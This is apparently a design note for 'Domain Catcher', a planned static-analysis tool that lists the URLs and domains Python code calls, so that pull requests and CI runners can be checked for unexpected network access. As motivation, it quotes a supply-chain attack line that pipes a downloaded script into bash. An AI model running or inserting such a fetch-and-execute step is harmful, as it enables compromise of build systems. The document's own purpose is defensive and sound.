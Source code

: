 hi\
hello

>   works\
    wors

# Domain Catcher

>   For now I am focusing on DNS domains and not external dependency files, so
>   the name could change.

## Problem and Motivation

I read an article recently \
<https://johnstawinski.com/2024/01/11/playing-with-fire-how-we-executed-a-critical-supply-chain-attack-on-pytorch/>\
which involved a pull request which contained an url in the form of 
`run: curl <GIST_URL> | bash` in the code and it went through. The article says
that the exploit could have been prevented by having proper permissions for
Github pull requests. But, I believe that having executable URLs in the pull
request should be highlighted so that they are easily spotted. Even in corporate
environment, the security team asks for a list of API endpoints being used by
the application. I think the same logic can be extended to list external files
and directories that are read or written to, directly in the source code. Also
pull requests should be scanned just like the source code.

Self hosted runners are used by many software projects. These runners might not
have appropriate firewall configurations unlike github runners. Runners should
not be able to fetch anything until explicitly allowed. Keeping the list of all
ingress points ready in the source code will help in securing these runners as
well.

## Proposed Solution

Making this information readily available and in a open format would help to
provide some transparency on source and destination of **data flow**.
The data in the open format could be used by other tools like a firewall to
determine the ACL automatically. It will also help people who like to be sure
that the software they are using is not sending/fetching data to/from somewhere
they don't know about. Like in the following link someone wanted to do just
that.\
<https://webmasters.stackexchange.com/questions/90249/how-to-list-all-urls-in-the-source-code-files-of-a-website-with-command-line-too>

## Implementation Details

To implement this and to make it general I have a thought of a few cases:
1. Hardcoded URLs and files - (Handle through static analysis or regex)
2. URLs/file-names dynamically constructed (variables/config files) - Use
   static analysis to get the config file names from which URLs/file-names are
   getting fetched and then highlight them.
3. URLs/file-names coming from database tables - use static analysis to see
   which tables they are getting fetched from and highlight those tables.
4. Obfuscated URLs/file-names - the location of the function calls for network
   or disk access can be highlighted.

The above methods use static analysis and regex for analysis. This can be
extended to using DAST tools to see the data flow during execution.

Aim: Know all points of ingress/egress for any source code repository

### Initial scope
* Only DNS Domains (HTTP), not checking external files
* Implement for only one programming language (Python)

To implement, the below cases have to be checked:
1.  True Positives (Need to identify the calling function based on programming
    language)
    a.  Hard-coded domain names
    a.  Dynamically constructed URLs
2.  False Positives (Domains which are not executable)
    a.  Comments
    a.  Documentation
    a.  Text files


### Abstract Syntax Tree (AST) requirement

*   Using only regex will not suffice for differentiating between True and False
    positives
*   Use AST to understand which are the executable domains and avoid False
    Positives

TODO: Small experiment to see how many domains are not caught by regex for some
sample repos

### High Overview of workflow

1.  User pushes source code to development branch
1.  Github workflow triggered for running domain-catcher on source code
    1.  Runs domain-catcher on source code
        1.  Parse source code - generate AST
        1.  Apply pre-defined rules on AST to extract domains
        1.  Generate JSON/YAML artifact for latest list or domains
    1.  Download artifact containing previous domains if it exists
    1.  Get the diff between previous and current list of domains
    1.  Create issue/email/notification if diff exists

### Existing tools for helping with implementation

Options:
1.  [Bandit](https://github.com/PyCQA/bandit) (Python)
    *   Highlights vulnerabilities using predefined rules
    *   Can refer code for parsing and applying rules
    *   Add code for creating JSON/YAML output for list of domains.

## Miscellaneous

If URLs are coming from DB, query DB to get the URLs or mention that URLs are\
coming from this table in Database in SECURITY.md.\
Alert - If any file/URL is outside scope (if provided by maintainer)\
Try to enforce and verify those are the only URLs. Transparency logs - merkel\
trees.\
Add all this information to SECURITY.md?\
Using SARIF files for reporting?
1.  Uploads SARIF file as an artifact
1.  Calls Github Codeql github action for SARIF file processing
